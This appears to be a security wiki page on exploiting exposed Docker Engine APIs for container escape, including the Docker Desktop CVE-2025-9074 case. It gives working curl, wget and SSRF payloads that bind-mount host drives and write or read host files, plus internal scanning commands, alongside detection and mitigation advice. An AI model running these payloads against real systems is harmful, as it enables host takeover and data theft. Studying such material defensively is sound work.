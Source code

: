 # Abusing Docker Engine API (TCP 2375/2376) for Container Escape

{{#include ../../banners/hacktricks-training.md}}

This page explains how to detect, exploit, and defend against exposed Docker Engine HTTP API endpoints reachable from containers or via SSRF, including the Docker Desktop CVE-2025-9074 scenario.

## Overview

- The Docker Engine exposes a REST API typically bound to:
  - tcp/2375 over HTTP (no TLS)
  - tcp/2376 over HTTPS (TLS)
  - unix:///var/run/docker.sock (local socket)
- If the TCP API is reachable by untrusted workloads (pods/containers) without authentication, an attacker can create and start containers with bind mounts and/or privileged mode to operate on the host filesystem and devices, achieving a full container escape and effective host compromise.
- On Docker Desktop for Windows/macOS, the Docker Engine runs inside a Linux VM and provides host file sharing. If the Engine API is exposed to containers (as in CVE-2025-9074), bind mounts can directly write to the Windows/macOS host filesystem.

## Verify Exposure

From inside any container or via an SSRF primitive capable of HTTP requests:

```bash
# Plain HTTP probe (2375)
curl -s http://<engine-ip>:2375/_ping   # -> OK
curl -s http://<engine-ip>:2375/version # Engine version
curl -s http://<engine-ip>:2375/info    # Info/driver details

# TLS probe (2376) requires client certs normally; if misconfigured, it may allow unauthenticated TLS
```

Typical Engine IPs in desktop setups are in a private range. On Docker Desktop for Windows the engine was reachable at 192.168.65.7:2375 in the vulnerable builds. Enumerate and scan internal ranges from a compromised container:

```bash
# Quick scan for a few likely ranges
nmap -Pn -sT -p 2375,2376 192.168.65.0/24 192.168.64.0/24 10.0.0.0/8 172.16.0.0/12 192.168.0.0/16 --open
```

## Two-call Host Takeover via API

The minimum sequence to execute code against the host via bind mounts:

1) POST /containers/create with HostConfig.Binds to mount a host path into the new container and a startup Cmd to operate on that mount.
2) POST /containers/{id}/start to run it.

Example (works from any Linux container that can reach the Engine API):

```bash
# Windows host via Docker Desktop: share Windows C: into container at /host_root
# Note the special path format on Windows Docker Desktop: /mnt/host/c maps to C:\ on the Windows host

curl -s -H 'Content-Type: application/json' \
  -d '{
        "Image":"alpine",
        "Cmd":["sh","-c","echo pwned > /host_root/pwn.txt"],
        "HostConfig":{
          "Binds":["/mnt/host/c:/host_root"]
        }
      }' \
  http://192.168.65.7:2375/containers/create > create.json

CID=$(jq -r .Id create.json)
# If jq is unavailable, you can extract the ID with cut/awk

curl -s -X POST http://192.168.65.7:2375/containers/$CID/start
```

What this does:
- HostConfig.Binds maps the Windows host C: drive into the container at /host_root using the Docker Desktop path translation ("/mnt/host/c:/host_root").
- The startup command writes a file on the mounted path, landing at C:\pwn.txt on the Windows host.

Optional hardening bypasses:
- Privileged container: add "Privileged": true under HostConfig to gain broader device/namespace access on Linux hosts.
- Host network: add "NetworkMode": "host" if network namespaces need to be bypassed (where applicable).

### macOS Docker Desktop notes

On Docker Desktop for macOS, the Engine runs in a Linux VM with file sharing of select host paths. Common shares include:
- /Users
- /Volumes
- /private
- /tmp

You can use HostConfig.Binds to mount these into a container and operate on the macOS host files, for example:

```json
{
  "Image": "alpine",
  "Cmd": ["sh","-c","ls -la /host_users"],
  "HostConfig": {
    "Binds": ["/Users:/host_users"]
  }
}
```

## SSRF-only Compromise

An interactive shell is not required. Any service running in a container with an SSRF primitive that can send JSON POST requests with Content-Type: application/json to the Engine API can perform the same two-call sequence:

```http
POST http://<engine-ip>:2375/containers/create
Content-Type: application/json

{"Image":"alpine","Cmd":["sh","-c","cat /host_root/Windows/System32/drivers/etc/hosts > /host_root/Temp/loot.txt"],"HostConfig":{"Binds":["/mnt/host/c:/host_root"]}}

POST http://<engine-ip>:2375/containers/<id>/start
```

This results in reading/writing arbitrary host files. Attackers can exfiltrate data or drop executables on the host.

## Detection

- Monitor Docker Engine API usage for unexpected container lifecycle calls from container network ranges:
  - POST /containers/create
  - POST /containers/*/start
  - DELETE /containers/* (cleanup by attacker)
- Alert on suspicious HostConfig in creates:
  - Binds referencing Windows drive letters (e.g., /mnt/host/c:), macOS shared paths (/Users, /Volumes, /private, /tmp), or sensitive Linux paths (/etc, /root, /var/run/docker.sock).
  - Privileged: true, HostNetwork, or extensive CapAdd.
- File integrity or endpoint telemetry on the host for sudden creation/modification of artifacts (e.g., C:\pwn.txt) immediately after container starts.
- Network telemetry: access to Engine IP:2375/2376 originating from workloads.

## Mitigations

- Never expose the Docker Engine API over TCP without proper TLS and authentication. Prefer the local unix socket with strict permissions.
- On Docker Desktop, ensure the Engine API is not reachable from containers and untrusted networks. Update to a fixed version.
- Enforce strict network segmentation between control plane (Engine API) and workloads; assume zero trust for all internal endpoints.
- Restrict bind mounts via policies and admissions where possible (e.g., disallow hostPath or sensitive binds in orchestrators).

## Case study: Docker Desktop CVE-2025-9074

- Root cause: Docker Desktop for Windows exposed the Engine HTTP API (http://192.168.65.7:2375) to containers without authentication. Any container, or an SSRF within one, could control the host.
- Impact: Full container escape by creating a container that bind-mounted the Windows C: drive and executed arbitrary file operations on the host.
- Exploit flow: exactly the two-call sequence above: POST /containers/create with HostConfig.Binds + startup Cmd, then POST /containers/{id}/start.
- A collaborator reproduced a similar issue on macOS.
- Fix: Update Docker Desktop (refer to vendor release notes for fixed builds).

Minimal PoC (wget variant as seen in the write-up):

```bash
wget --header='Content-Type: application/json' \
  --post-data='{"Image":"alpine","Cmd":["sh","-c","echo pwned > /host_root/pwn.txt"],"HostConfig":{"Binds":["/mnt/host/c:/host_root"]}}' \
  -O - http://192.168.65.7:2375/containers/create > create.json
cid=$(cut -d'"' -f4 create.json)
wget --post-data='' -O - http://192.168.65.7:2375/containers/$cid/start
```

## Related Techniques

- Local socket abuse: mounting /var/run/docker.sock into a container and then using docker to control the host.
- Orchestrator-specific controls (Kubernetes, ECS, etc.) may prevent or enable variants of these attacks depending on policies.

## References

- [Full Docker Desktop Escape via Exposed Docker API (CVE-2025-9074)](https://blog.qwertysecurity.com/Articles/blog3.html)
- [CVE-2025-9074](https://www.cve.org/CVERecord?id=CVE-2025-9074)
- [Docker Desktop 4.44.x Release Notes](https://docs.docker.com/desktop/release-notes/#4443)
- [Breaking Docker's isolation using Docker (CVE-2025-9074) - Pvotal Tech](https://pvotal.tech/breaking-dockers-isolation-using-docker-cve-2025-9074/)
- [Nmap](https://nmap.org/)

{{#include ../../banners/hacktricks-training.md}}